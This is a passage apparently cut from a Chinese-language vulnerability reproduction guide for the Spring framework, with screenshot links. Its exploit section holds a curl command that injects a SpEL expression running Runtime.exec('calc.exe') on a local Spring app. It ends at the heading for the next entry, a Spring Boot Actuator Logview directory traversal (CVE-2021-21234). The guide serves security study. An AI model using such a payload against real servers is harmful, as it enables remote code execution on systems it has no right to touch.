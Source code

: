 ![企业微信截图_20230518160531](./img/spring/企业微信截图_20230518160531.png)

#### 漏洞复现

exp如下：

```
curl -X POST http://localhost:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('calc.exe')]=123"
```

![企业微信截图_20230518160733](./img/spring/企业微信截图_20230518160733.png)

### 2.2 Spring Boot Actuator Logview 目录遍历漏洞（CVE-2021-21234）

#### 漏洞简介
